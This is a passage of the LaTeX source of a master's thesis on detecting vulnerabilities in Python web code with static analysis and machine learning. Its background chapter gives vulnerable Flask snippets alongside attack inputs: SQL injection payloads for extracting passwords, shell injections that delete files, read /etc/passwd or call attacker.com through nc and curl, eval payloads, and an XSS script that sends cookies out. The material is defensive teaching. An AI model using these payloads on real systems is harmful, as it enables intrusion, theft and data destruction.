% 14.06.2019, markus endres

% delete „english“ if you are writing a thesis in German.
\documentclass[11pt,fleqn,a4paper,headsepline, numbers=noenddot,bibliography=totoc,oneside, version=first,listof=totoc,ngerman,english]{scrreprt}

\usepackage{scrhack}
\usepackage{finalthesis}
\usepackage{fancyheadings}
\usepackage[style=numeric,sorting=none,language=english]{biblatex}

\usepackage{pdfsync}
%\usepackage{ngerman,english}
\usepackage[ngerman,english]{babel}
\usepackage[utf8]{inputenc} 
\usepackage{epsfig}
\usepackage{graphicx}

\usepackage[all]{xy}
\usepackage{a4wide}
\usepackage{longtable,multicol}
\usepackage{eurosym}
\usepackage{alltt}
\usepackage[small, bf]{caption}
\usepackage{float}
\usepackage{helvet}
\usepackage{hyperref}
\usepackage{setspace}
\usepackage[active]{srcltx}
\usepackage{cancel}
\usepackage{eepic}
\usepackage{epic}
\usepackage{enumerate}
\usepackage{color}
\usepackage{xcolor}
\usepackage{amssymb}
\usepackage{amsmath}
\usepackage{amsthm} 
\usepackage{algorithm}
\usepackage{algpseudocode}
\usepackage[normalem]{ulem}

\usepackage{listings}
\lstset{language=}
\lstset{basicstyle=\ttfamily}
% Python listings with syntax highlighting
\lstdefinestyle{pycode}{
	language=Python,
	basicstyle=\ttfamily\small,
	keywordstyle=\color{blue},
	commentstyle=\color{gray}\itshape,
	stringstyle=\color{orange!80!black},
	showstringspaces=false,
	breaklines=true,
	frame=single,
	numbers=left,
	numberstyle=\tiny\color{gray}
}
% Style for attack examples and other code snippets (long lines wrap inside frame)
\lstdefinestyle{attackcode}{
	basicstyle=\ttfamily\small,
	frame=single,
	breaklines=true,
	breakatwhitespace=false,
	postbreak=\mbox{\textcolor{gray}{$\hookrightarrow$}\space}
}
\lstdefinelanguage{PSQL}[]{SQL}{
   morekeywords={PREFERRING}
   sensitive=true,% DJ
   morecomment=[l]--,%
   morecomment=[s]{/*}{*/},%
   morestring=[d]',%
   morestring=[d]"%
}[keywords,comments,strings]%

% better bibliography (biblatex style)
% use biber to compile
\usepackage[autostyle,english=american,german=quotes]{csquotes}
\addbibresource{literature.bib}

\newcommand{\pareto}{\otimes}
\newcommand{\prio}{~\&~}
\newcommand{\indiff}[3]{#1\ \|_{#2}\ #3}
\newcommand{\antichain}[1]{#1^\leftrightarrow}

%\newtheorem{definition}{Definition}
\newtheorem{theorem}{Theorem}
\newtheorem{corollary}{Corollary}
\newtheorem*{theoremproof}{Proof}
\newtheorem{lemma}{Lemma}
\newtheorem*{lemmaproof}{Proof}
\newtheorem{example}{Example}
\newtheorem{def_internal}{Definition}
\newenvironment{definition}[1]{
  \begin{def_internal}{\textbf{#1}\\}
}{ 
  \hfill $\Box$
  \end{def_internal}
}

\renewcommand{\algorithmiccomment}[1]{$\rhd$ #1 \hfill}
\renewcommand{\labelenumi}{\alph{enumi})}
\renewcommand{\algorithmiccomment}[1]{//#1 }

\renewcommand{\sectfont}{\rmfamily\bfseries}
\renewcommand{\topmargin}{0mm}
\renewcommand{\textheight}{222mm}
%\renewcommand{\textwidth}{152mm}
%\renewcommand{\evensidemargin}{-2mm}
%\renewcommand{\oddsidemargin}{29mm}
%\setlength{\oddsidemargin}{1.8cm}

\setcounter{topnumber}{3}
%\renewcommand{\baselinestretch}{1.09}

\setlength{\mathindent}{0.5cm}
\setlength{\parindent}{0cm}
\setlength{\parskip}{1.2ex plus0.5ex minus0.2ex}
\setcounter{secnumdepth}{5}

\setcounter{tocdepth}{5}
\renewcommand{\textfraction}{0.0}

%
% Kopfzeile
%
\pagestyle{fancyplain}
\renewcommand{\chaptermark}[1]{\markboth{#1}{}}
\renewcommand{\sectionmark}[1]{\markright{\thesection\ #1}}
\lhead[\fancyplain{}{\bfseries\thepage}]
 {\fancyplain{}{\bfseries\rightmark}}
\rhead[\fancyplain{}{\bfseries\leftmark}]
 {\fancyplain{}{\bfseries\thepage}}
\cfoot{\fancyplain{\bfseries\thepage}{}}

%



\begin{document}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Modify this
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Bachelor or Master thesis
\ftgrad{M.Sc. Thesis}
% title
\fttitle{Static Analysis vs.\ Machine Learning: A Study of Source Code Vulnerability Detection Models} 
% Author and affiliation
\ftauthor{Mohammad Almasi}
\gdef\@ftauthor{Mohammad Almasi\par\vspace{0.6em}{\large\normalfont M.Sc. Computer Science, University of Passau\par Passau, Germany\par\vspace{0.3em}\texttt{almasi01@ads.uni-passau.de}}} 
% 1. examiner
\ftgutachter{Prof. Dr. Joachim Posegga}
% 2. examiner
% Delete this line if you write a Bachelor thesis
\ftzweitgutachter{Prof. Dr. Steffen Herbold}
% supervisor
\ftbetreuer{Ms. Talaya Farasat}
% date of submission
\ftdate{\today}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\makefttitle


\pagenumbering{roman}

\tableofcontents
\newpage

% Abstract
% !TeX spellcheck = en_US
% !TeX encoding = UTF-8
\chapter*{Abstract}

This thesis presents the design and implementation of a vulnerability scanner that detects security flaws in Python applications using two complementary approaches: traditional static code analysis and modern machine learning techniques. The primary objective is to identify common web application vulnerabilities, including SQL injection, Cross-Site Scripting (XSS), command injection, and Cross-Site Request Forgery (CSRF).

The proposed vulnerability scanner is integrated into a Python Flask-based backend with a React frontend, providing a user-friendly interface for analyzing and comparing results from both detection methods. The system allows users to upload source code files, paste code directly into the interface, or scan public GitHub repositories. By leveraging both rule-based static analysis and data-driven machine learning models, the tool offers a comprehensive assessment of potential security risks.

This solution is particularly beneficial for programmers and developers, enabling early detection of vulnerabilities during the development lifecycle and contributing to improved software security practices.

This vulnerability scanner is opensource and is available at: https://github.com/mohammadalmasi/06.27

\textbf{Index Terms—}Vulnerability Scanner, Static Analysis, Machine Learning techniques.

\newpage

% Acknowledgements (optional)
\chapter*{Acknowledgments}

I would like to express my sincere gratitude to the University of Passau for providing me with the opportunity to undertake this project. I am deeply thankful to my first examiner, Joachim Posegga, and Stefan Katzenbeisser, for their valuable guidance and support. I am especially grateful to my advisors, Talaya Farasat and Aleena George, whose continuous feedback and insights were instrumental in shaping this work. I also extend my thanks to the faculty and technical staff at the University of Passau for their assistance throughout the thesis.

\newpage


%\addcontentsline{toc}{chapter}{Abbildungen}
\listoffigures
%\addcontentsline{toc}{chapter}{Tabellen}
\listoftables


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\chapter{Introduction}
\label{ch:introduction}

% Do not delete this
\pagenumbering{arabic}
%

Web applications are fundamental to modern digital infrastructure and remain frequent targets of cyberattacks. Despite advances in secure development practices and automated testing tools, critical vulnerabilities continue to affect production systems. Among the most prevalent are SQL injection, Cross-Site Scripting (XSS), command injection, and Cross-Site Request Forgery (CSRF). SQL injection enables unauthorized database manipulation, XSS allows execution of malicious scripts in users' browsers~\cite{OWASPXSSCheatsheet,CWE79}, command injection permits arbitrary system command execution, and CSRF exploits implicit browser trust relationships~\cite{OWASPTop10,OWASPSQLiCheatsheet,OWASPCSRCheatsheet,OWASPCommandInjection,CWE89,CWE352,CWE78}. The persistence of these vulnerabilities underscores the need for accessible and effective detection mechanisms.

Although numerous security analysis tools exist, the current landscape presents practical and technical limitations. Enterprise-grade security scanners are often financially inaccessible to students, academic institutions, and small development teams. Furthermore, much of the vulnerability detection literature and benchmarking infrastructure has focused primarily on C/C++ and Java ecosystems, with comparatively less attention devoted to Python-based web applications~\cite{Allamanis2018Survey,Li2018VulDeePecker,Fan2020BigVul,Fan2023DiverseVul,Zhou2019Devign,Zhang2025DLSurvey}. This gap is particularly significant given Python's widespread adoption in web development through frameworks such as Django and Flask~\cite{Flask,Django}.

Vulnerability detection approaches typically fall into two categories: traditional static analysis and machine learning--based techniques. Static analysis relies on rule-based reasoning, taint propagation, and control-flow analysis to identify potentially unsafe behaviors. While interpretable and deterministic, such methods may generate false positives or struggle with dynamic language features. In contrast, recent advances in deep learning for source code analysis~\cite{Allamanis2018Survey,Alon2019code2vec,Feng2020CodeBERT,Zhou2019Devign,Steenhoek2024DeepDFA,SySeVR2021} demonstrate that neural models can learn semantic representations of programs and identify complex vulnerability patterns. Systems such as VUDENC and related approaches~\cite{VulnDetection,GitHubVulnerabilityDetectionRepo,PythonVulnDetectionDataset,Li2018VulDeePecker,Fan2020BigVul,Fan2023DiverseVul,Zhang2025DLSurvey,NISTNVD} highlight the growing effectiveness of learning-based vulnerability detection, though challenges remain regarding explainability and dataset dependence.

This thesis presents a web-based vulnerability scanning platform that enables users to analyze Python code using either static analysis or machine learning--based detection. The system is implemented with a Flask backend and a React frontend and supports direct code input, file uploads, and GitHub repository scanning.

\section{Contributions}
\label{sec:contributions}

Our contributions are summarized as follows:

\textbf{Web-Based Vulnerability Analysis Platform.}
Developed an interactive, open-source web application that allows users to analyze Python code using either static analysis or machine learning--based detection. The platform supports direct code input, file uploads, and GitHub repository scanning, making it freely accessible compared to expensive commercial tools.

\textbf{Python-Specific Static Analysis Implementation.}
Designed and implemented static analysis techniques leveraging Python's Abstract Syntax Tree (AST) to detect SQL Injection, XSS, Command Injection, and CSRF vulnerabilities in Python code.

\textbf{Machine Learning--Based Detection.}
Integrated a BiLSTM-based machine learning model for detecting SQL Injection, XSS, Command Injection, and CSRF vulnerabilities, demonstrating the applicability of sequence-based neural architectures for Python security analysis.

\textbf{Empirical Performance Evaluation.}
Conducted a comparative evaluation of static analysis and machine learning approaches, measuring detection accuracy, precision, recall, and false positive rates across multiple vulnerability types.

\textbf{Usability and Scalability.}
Developed a user-friendly interface that supports efficient and scalable analysis of Python code using both static and machine learning methods, making the platform accessible to developers and researchers worldwide.
 
\chapter{Background}
\label{ch:background}

This chapter presents the four primary web application vulnerabilities targeted by the proposed platform: SQL Injection (SQLi), Cross-Site Scripting (XSS), Command Injection, and Cross-Site Request Forgery (CSRF). Understanding these vulnerabilities is essential for designing effective detection techniques using both static analysis and machine learning methods.

\section{SQL Injection}
\label{sec:background_sqli}

SQL Injection (SQLi) is a code injection technique that exploits security vulnerabilities in an application's database layer~\cite{OWASPTop10,OWASPSQLiCheatsheet,CWE89,Halfond2005AMNESIA}. Attackers can manipulate SQL queries by injecting malicious SQL statements into input fields, allowing them to:
\begin{itemize}
	\item Access unauthorized data
	\item Modify or delete database records
	\item Execute administrative operations
	\item Bypass authentication mechanisms
\end{itemize}

\subsection{String Concatenation}
\label{sec:sqli_string_concat}

String concatenation SQL injection occurs when user input is directly concatenated (joined) with SQL query strings using the plus (+) operator or similar string joining methods.

\textbf{How it works:} When developers build SQL queries by combining strings with user input, attackers can inject malicious SQL code. The database treats the injected code as part of the legitimate query.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
username = request.form.get("username")
query = "SELECT * FROM users WHERE username = '" + username + "'"
cursor.execute(query)
\end{lstlisting}

\textbf{Attack Example:} If an attacker enters the following input, the resulting query becomes:
\begin{lstlisting}[style=attackcode]
admin' OR '1'='1
\end{lstlisting}
\begin{lstlisting}[style=attackcode]
SELECT * FROM users WHERE username = 'admin' OR '1'='1'
\end{lstlisting}
This query returns all users because the condition \texttt{'1'='1'} is always true.

\textbf{Mitigation:} Use parameterized queries (prepared statements) instead of string concatenation:

\begin{lstlisting}[style=pycode]
username = request.form.get("username")
query = "SELECT * FROM users WHERE username = %s"
cursor.execute(query, (username,))
\end{lstlisting}
With parameterized queries, the database treats user input as data, not as executable SQL code.

\subsection{F-String Formatting}
\label{sec:sqli_fstring}

F-string formatting SQL injection occurs when Python f-strings (formatted string literals) are used to directly embed user input into SQL queries.

\textbf{How it works:} F-strings in Python allow embedding expressions directly in strings using curly braces \{\}. When used with SQL queries, user input is directly inserted into the query string, making it vulnerable to injection attacks.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
user_id = request.args.get("id")
query = f"SELECT * FROM users WHERE id = {user_id}"
cursor.execute(query)
\end{lstlisting}

\textbf{Attack Example:} If an attacker enters the following input, the resulting query becomes:
\begin{lstlisting}[style=attackcode]
1 OR 1=1
\end{lstlisting}
\begin{lstlisting}[style=attackcode]
SELECT * FROM users WHERE id = 1 OR 1=1
\end{lstlisting}
This returns all users because the OR condition makes the entire WHERE clause always true.

\textbf{Mitigation:} Never use f-strings with SQL queries. Always use parameterized queries:

\begin{lstlisting}[style=pycode]
user_id = request.args.get("id")
query = "SELECT * FROM users WHERE id = %s"
cursor.execute(query, (user_id,))
\end{lstlisting}
Alternative: Use ORM (Object-Relational Mapping) frameworks like SQLAlchemy or Django ORM that handle parameterization automatically.

\subsection{Error-based SQL Injection}
\label{sec:sqli_error_based}

Error-based SQL injection is a technique where attackers intentionally cause database errors to extract information about the database structure, table names, column names, and data.

\textbf{How it works:} Attackers inject SQL code that causes the database to generate error messages. These error messages often contain valuable information about the database structure, which attackers use to craft more sophisticated attacks.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
user_id = request.form.get("id")
query = f"SELECT * FROM users WHERE id = {user_id}"
try:
    result = cursor.execute(query)
except Exception as e:
    return str(e)  # Vulnerable: exposing error details
\end{lstlisting}

\textbf{Attack Example:} Attacker injects SQL that causes an error revealing the database version. Example payloads:
\begin{lstlisting}[style=attackcode]
1 AND (SELECT * FROM (SELECT COUNT(*), CONCAT(version(), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) a)
\end{lstlisting}
MySQL-specific example:
\begin{lstlisting}[style=attackcode]
1' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e)) --
\end{lstlisting}

\textbf{Mitigation:} (1) Use parameterized queries to prevent injection. (2) Never expose detailed error messages to users. (3) Log errors server-side but return generic messages to clients:

\begin{lstlisting}[style=pycode]
try:
    cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
except Exception as e:
    logger.error(f"Database error: {e}")  # Log internally
    return "An error occurred. Please try again."  # Generic message
\end{lstlisting}

\subsection{Union-based SQL Injection}
\label{sec:sqli_union}

Union-based SQL injection uses the SQL UNION operator to combine the results of the original query with results from a malicious query, allowing attackers to retrieve data from other tables.

\textbf{How it works:} The UNION operator combines results from multiple SELECT statements. Attackers exploit this by injecting a UNION SELECT statement that retrieves data from tables they should not have access to.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
category = request.args.get("category")
query = f"SELECT name, price FROM products WHERE category = '{category}'"
cursor.execute(query)
\end{lstlisting}

\textbf{Attack Example:} Attacker injects a UNION SELECT to retrieve data from other tables. Injected payload and resulting query:
\begin{lstlisting}[style=attackcode]
' UNION SELECT username, password FROM users --
\end{lstlisting}
\begin{lstlisting}[style=attackcode]
SELECT name, price FROM products WHERE category = '' UNION SELECT username, password FROM users --'
\end{lstlisting}
To find the correct column count, attackers use \texttt{' UNION SELECT NULL, NULL, NULL -{}-} or \texttt{' UNION SELECT 1, 2, 3 -{}-} to identify which columns are displayed.

\textbf{Mitigation:} Use parameterized queries; implement proper access controls at the database level; limit columns returned; validate and sanitize all input:

\begin{lstlisting}[style=pycode]
category = request.args.get("category")
query = "SELECT name, price FROM products WHERE category = %s"
cursor.execute(query, (category,))
\end{lstlisting}

\subsection{Boolean-based Blind SQL Injection}
\label{sec:sqli_boolean_blind}

Boolean-based blind SQL injection is a technique where attackers infer information from the database by observing how the application responds to true or false conditions, even when no data is directly returned.

\textbf{How it works:} Attackers inject SQL conditions that evaluate to TRUE or FALSE. By observing differences in the application's response (different error messages, response times, or page content), they can determine if the injected condition is true or false and extract data bit by bit.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
user_id = request.args.get("id")
query = f"SELECT * FROM users WHERE id = {user_id}"
result = cursor.execute(query)
if result:
    return "User found"  # Different response
else:
    return "User not found"  # Different response
\end{lstlisting}

\textbf{Attack Example:} Attacker sends conditions that evaluate to TRUE or FALSE; the application response reveals the result. Example payloads:
\begin{lstlisting}[style=attackcode]
1 AND 1=1
\end{lstlisting}
returns ``User found'' (TRUE);
\begin{lstlisting}[style=attackcode]
1 AND 1=2
\end{lstlisting}
returns ``User not found'' (FALSE). To extract data character by character:
\begin{lstlisting}[style=attackcode]
1 AND SUBSTRING((SELECT password FROM users WHERE id=1), 1, 1) = 'a'
\end{lstlisting}
This works even when error messages are suppressed.

\textbf{Mitigation:} Use parameterized queries; use consistent response formats; implement rate limiting; use WAFs to detect injection patterns. Validate input (e.g., require numeric \texttt{user\_id}) and use parameterized queries.

\subsection{Time-based Blind SQL Injection}
\label{sec:sqli_time_based}

Time-based blind SQL injection is a technique where attackers infer information by observing how long the database takes to respond. Attackers inject SQL functions that cause delays; the presence or absence of a delay reveals information about the data.

\textbf{How it works:} Attackers inject SQL functions like \texttt{SLEEP()}, \texttt{WAITFOR DELAY}, or \texttt{BENCHMARK()} that cause the database to pause. If the injected condition is true, the delay occurs; if false, no delay occurs. By measuring response times, attackers can extract data character by character. Database-specific delay functions: MySQL: \texttt{SLEEP(5)}, \texttt{BENCHMARK(1000000, MD5('test'))}; PostgreSQL: \texttt{pg\_sleep(5)}; MS SQL: \texttt{WAITFOR DELAY '00:00:05'}; Oracle: \texttt{DBMS\_PIPE.RECEIVE\_MESSAGE}. This works when no error messages are shown, responses are identical, or no data is returned.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
user_id = request.args.get("id")
query = f"SELECT * FROM users WHERE id = {user_id}"
start_time = time.time()
cursor.execute(query)
response_time = time.time() - start_time
\end{lstlisting}

\textbf{Attack Example:} Attacker uses time delays to infer TRUE/FALSE. Example payloads:
\begin{lstlisting}[style=attackcode]
1 AND IF(1=1, SLEEP(5), 0)
\end{lstlisting}
causes a 5-second delay (TRUE);
\begin{lstlisting}[style=attackcode]
1 AND IF(1=2, SLEEP(5), 0)
\end{lstlisting}
returns immediately (FALSE). To extract data character by character:
\begin{lstlisting}[style=attackcode]
1 AND IF(SUBSTRING((SELECT password FROM users WHERE id=1), 1, 1) = 'a', SLEEP(5), 0)
\end{lstlisting}
If the response is delayed 5 seconds, the first character is `a'.

\textbf{Mitigation:} Use parameterized queries; implement query timeout limits; monitor unusually slow queries; use connection pooling with timeouts; implement rate limiting; use WAFs to detect delay-based patterns. Validate and sanitize input; use parameterized queries.

\section{Command Injection}
\label{sec:background_cmd_injection}

Command Injection is a critical security vulnerability that occurs when an application passes unsafe user-supplied data to a system shell~\cite{OWASPTop10,OWASPCommandInjection,CWE78}. Attackers can execute arbitrary operating system commands on the server, potentially leading to:
\begin{itemize}
	\item Unauthorized system access
	\item Data theft or deletion
	\item System compromise
	\item Lateral movement in networks
	\item Complete server takeover
\end{itemize}

\subsection{OS System Calls}
\label{sec:cmd_os_system}

OS system calls refer to direct execution of operating system commands using functions like \texttt{os.system()}, \texttt{os.popen()}, or similar methods that execute commands in the system shell.

\textbf{How it works:} When user input is directly passed to \texttt{os.system()} or similar functions, attackers can inject command separators (\texttt{;}, \texttt{\&\&}, \texttt{||}, \texttt{|}) to execute additional malicious commands. The system executes the injected commands with the same privileges as the application.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
import os
filename = request.form.get("filename")
os.system(f"cat {filename}")
\end{lstlisting}

\textbf{Attack Example:} Attacker submits malicious input so the shell runs extra commands. Example:
\begin{lstlisting}[style=attackcode]
file.txt; rm -rf /
\end{lstlisting}
The command becomes \texttt{cat file.txt; rm -rf /}, executing \texttt{cat} then deleting all files. Other dangerous injections:
\begin{lstlisting}[style=attackcode]
file.txt && whoami
file.txt | nc attacker.com 1234
file.txt || curl http://attacker.com/steal
\end{lstlisting}

\textbf{Mitigation:} Never use \texttt{os.system()} with user input; use \texttt{subprocess.run()} with \texttt{shell=False} and a list of arguments; validate and sanitize input; use whitelist validation:

\begin{lstlisting}[style=pycode]
import subprocess
filename = request.form.get("filename")
# Validate filename - only allow alphanumeric and dots
if not re.match(r"^[a-zA-Z0-9.]+$", filename):
    return "Invalid filename"
# Use subprocess with shell=False and list of arguments
result = subprocess.run(["cat", filename], capture_output=True, text=True, shell=False)
\end{lstlisting}

\subsection{Subprocess Vulnerabilities}
\label{sec:cmd_subprocess}

Subprocess vulnerabilities occur when the \texttt{subprocess} module is used with \texttt{shell=True}, allowing user input to be interpreted as shell commands. Even with \texttt{shell=False}, improper argument handling can lead to command injection.

\textbf{How it works:} When subprocess functions are called with \texttt{shell=True}, the command string is passed to the system shell, which interprets special characters. Attackers can inject command separators, redirects, or other shell metacharacters.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
import subprocess
user_input = request.args.get("cmd")
subprocess.call(f"ping {user_input}", shell=True)
\end{lstlisting}

\textbf{Attack Example:} Attacker injects a command separator and malicious command. Example:
\begin{lstlisting}[style=attackcode]
8.8.8.8; cat /etc/passwd
\end{lstlisting}
The command becomes \texttt{ping 8.8.8.8; cat /etc/passwd}, executing \texttt{ping} then displaying the password file. Another vulnerable pattern: \texttt{subprocess.Popen(f"ls \{directory\}", shell=True)}.

\textbf{Mitigation:} Always use \texttt{shell=False}; pass commands as a list of arguments; validate all arguments; use absolute paths when possible:

\begin{lstlisting}[style=pycode]
import subprocess
ip_address = request.args.get("ip")
# Validate IP address format
if not re.match(r"^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$", ip_address):
    return "Invalid IP address"
# Use list of arguments with shell=False
subprocess.run(["ping", "-c", "4", ip_address], shell=False)
\end{lstlisting}

\subsection{Shell Execution Methods}
\label{sec:cmd_shell_exec}

Shell execution methods include executing shell commands via backticks, \texttt{eval()}, \texttt{exec()}, or constructing shell command strings that are then executed.

\textbf{How it works:} Attackers exploit applications that construct shell command strings from user input. By injecting shell metacharacters, command separators, or escape sequences, attackers can break out of the intended command context and execute arbitrary commands.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
import os
command = f"grep {pattern} {filename}"
os.system(command)
\end{lstlisting}
Another vulnerable pattern: \texttt{result = os.popen(f"ls \{directory\}").read()}.

\textbf{Attack Example:} Attacker breaks out of the intended command and runs another. Example:
\begin{lstlisting}[style=attackcode]
test"; cat /etc/passwd; echo "
\end{lstlisting}
This breaks out of \texttt{grep} and executes \texttt{cat /etc/passwd}. Other techniques: \texttt{\$(command)}, backticks, \texttt{;}, \texttt{\&\&}, \texttt{||}, \texttt{|}.

\textbf{Mitigation:} Avoid constructing shell command strings from user input; use \texttt{subprocess} with \texttt{shell=False} and argument lists; strict input validation; escape or quote arguments if shell is unavoidable; use higher-level APIs:

\begin{lstlisting}[style=pycode]
import subprocess
# Use subprocess with argument list - no shell interpretation
result = subprocess.run(["grep", pattern, filename], capture_output=True, text=True, shell=False)
\end{lstlisting}

\subsection{Eval-Based Command Execution}
\label{sec:cmd_eval}

Eval-based command execution occurs when user input is passed to \texttt{eval()}, \texttt{exec()}, or similar functions that execute code dynamically. This allows arbitrary code execution.

\textbf{How it works:} The \texttt{eval()} and \texttt{exec()} functions in Python execute code dynamically. When user input is passed to these functions, attackers can inject arbitrary Python code to execute system commands or perform other malicious actions.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
user_expression = request.form.get("expression")
result = eval(user_expression)
\end{lstlisting}
Another dangerous pattern: \texttt{exec(f"import os; os.system('\{command\}')")}.

\textbf{Attack Example:} Attacker injects Python code that runs with \texttt{eval()}. Example:
\begin{lstlisting}[style=pycode]
__import__("os").system("rm -rf /")
\end{lstlisting}
Other dangerous injections:
\begin{lstlisting}[style=pycode]
__import__("subprocess").call(["cat", "/etc/passwd"])
open("/etc/passwd").read()
\end{lstlisting}
Or accessing internal classes via \texttt{\_\_subclasses\_\_}.

\textbf{Mitigation:} Never use \texttt{eval()} or \texttt{exec()} with user input; use safe expression evaluators or mathematical libraries; implement a whitelist of allowed operations; use AST parsing to validate expressions; run in sandboxed environments if dynamic execution is necessary:

\begin{lstlisting}[style=pycode]
import ast
# Use safe expression evaluator or validate AST
def safe_eval(expression):
    # Only allow simple mathematical expressions
    allowed_nodes = (ast.Expression, ast.BinOp, ast.Num, ast.Name)
    tree = ast.parse(expression, mode="eval")
    # Validate all nodes are in whitelist
\end{lstlisting}

\subsection{Shell Script Generation}
\label{sec:cmd_shell_script}

Shell script generation vulnerabilities occur when applications dynamically create shell scripts (bash, sh, batch files) from user input and then execute them.

\textbf{How it works:} When applications generate shell scripts by embedding user input into script templates, attackers can inject shell commands, script control structures, or other malicious code. The generated script runs with the application's privileges.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
script_content = f"""#!/bin/bash
echo "Processing {user_input}"
"""
with open("script.sh", "w") as f:
    f.write(script_content)
os.system("bash script.sh")
\end{lstlisting}

\textbf{Attack Example:} Attacker injects shell commands into the generated script. Example:
\begin{lstlisting}[style=attackcode]
file"; rm -rf /; echo "
\end{lstlisting}
The generated script then executes \texttt{rm -rf /}, deleting all files.

\textbf{Mitigation:} Avoid generating shell scripts from user input; use configuration files or APIs instead; if necessary, use template engines with strict escaping; validate and sanitize all input; use parameterized script templates. Use \texttt{shlex.quote(user\_input)} to properly escape for shell if substitution is required.

\subsection{Environment Variable Usage}
\label{sec:cmd_env_var}

Environment variable usage vulnerabilities occur when user input is used to set or modify environment variables that are then used in command execution. Attackers can manipulate environment variables to inject malicious commands.

\textbf{How it works:} When user input sets environment variables (via \texttt{os.environ} or \texttt{subprocess} \texttt{env} parameter) and those variables are later used in command execution, attackers can inject command separators or shell metacharacters that the shell interprets when the command runs.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
import os
user_path = request.form.get("path")
os.environ["PATH"] = user_path
os.system("some_command")  # Uses modified PATH
\end{lstlisting}
Another vulnerable pattern: \texttt{env = \{"CUSTOM\_VAR": user\_input\}} with \texttt{subprocess.run(..., shell=True, env=env)}.

\textbf{Attack Example:} Attacker sets environment variables to malicious values. Example:
\begin{lstlisting}[style=attackcode]
/usr/bin:/bin; rm -rf /; /usr/local/bin
\end{lstlisting}
The shell executes \texttt{rm -rf /} when the modified PATH is used. Or:
\begin{lstlisting}[style=attackcode]
CUSTOM_VAR=$(cat /etc/passwd)
\end{lstlisting}
so command substitution runs when the variable is used.

\textbf{Mitigation:} Validate all environment variable values; use whitelist validation; avoid using user input to modify critical variables (PATH, LD\_LIBRARY\_PATH); use \texttt{subprocess} with explicit environment dictionaries; sanitize values to remove shell metacharacters:

\begin{lstlisting}[style=pycode]
import subprocess
# Validate path - only allow alphanumeric, slashes, and colons
if not re.match(r"^[/a-zA-Z0-9:]+$", user_path):
    return "Invalid path"
# Create safe environment dictionary
safe_env = os.environ.copy()
safe_env["CUSTOM_PATH"] = user_path  # Validated value
subprocess.run(["command"], env=safe_env, shell=False)
\end{lstlisting}

\section{Cross-Site Scripting (XSS)}
\label{sec:background_xss}

Cross-Site Scripting (XSS) is a critical security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users~\cite{OWASPTop10,OWASPXSSCheatsheet,CWE79,MDNCSP,XSSRef1}. XSS attacks occur when an application includes untrusted data in a web page without proper validation or escaping, enabling attackers to execute scripts in the victim's browser context.

\subsection{Reflected XSS}
\label{sec:xss_reflected}

Reflected XSS (also known as Non-Persistent XSS) occurs when malicious scripts are reflected off a web server, such as in error messages, search results, or any response that includes some or all of the input sent to the server as part of a request.

\textbf{How it works:} The attacker crafts a malicious URL or form submission containing JavaScript code. When the victim clicks the link or submits the form, the malicious script is sent to the server and immediately reflected back in the response, executing in the victim's browser.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
from flask import Flask, request, render_template_string
app = Flask(__name__)
@app.route("/search")
def search():
    query = request.args.get("q")
    return f"<h1>Search results for: {query}</h1>"
\end{lstlisting}

\textbf{Attack Example:} Attacker sends the victim a malicious URL. When the victim clicks, the script executes in their browser:
\begin{lstlisting}[style=attackcode]
http://example.com/search?q=<script>alert(document.cookie)</script>
\end{lstlisting}
The script may steal session cookies or perform other malicious actions.

\textbf{Mitigation:} Always escape/encode user input before outputting to HTML; use context-aware encoding (HTML, JavaScript, CSS, URL); implement Content Security Policy (CSP); validate and sanitize all input~\cite{OWASPXSSCheatsheet,OWASPCSPCheatsheet,OWASPInputValidationCheatsheet,OWASPASVS}. Example with \texttt{escape()}:

\begin{lstlisting}[style=pycode]
from flask import Flask, request, escape
@app.route("/search")
def search():
    query = request.args.get("q", "")
    return f"<h1>Search results for: {escape(query)}</h1>"
\end{lstlisting}
Better: use template engines that auto-escape by default (Jinja2, Django templates).

\subsection{Stored XSS}
\label{sec:xss_stored}

Stored XSS (also known as Persistent XSS) occurs when malicious scripts are permanently stored on the target server (e.g., in a database, forum, visitor log, or comment field) and later displayed to other users.

\textbf{How it works:} The attacker submits malicious content (typically via a form) that is stored on the server. When other users view the page containing the stored content, the script executes in their browsers. This is more dangerous than reflected XSS because it affects all users who view the compromised page.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
from flask import Flask, request
comments = []  # In-memory storage
@app.route("/comment", methods=["POST"])
def add_comment():
    comment = request.form.get("comment")
    comments.append(comment)  # Stored without sanitization
@app.route("/comments")
def show_comments():
    html = "<br>".join(comments)
    return html
\end{lstlisting}

\textbf{Attack Example:} Attacker submits a comment containing malicious script that is stored and executed for every viewer:
\begin{lstlisting}[style=attackcode]
<script>document.location="http://attacker.com/steal?cookie="+document.cookie</script>
\end{lstlisting}
Every user who views the comments page may have their session cookies sent to the attacker's server.

\textbf{Mitigation:} Sanitize and validate all user input before storing; escape/encode all output when displaying; use CSP; use HTML sanitization libraries (e.g., \texttt{bleach} for Python): \texttt{clean\_comment = bleach.clean(comment, tags=[], strip=True)}~\cite{OWASPXSSCheatsheet,OWASPHTMLSanitizationCheatsheet}.

\subsection{DOM-based XSS}
\label{sec:xss_dom}

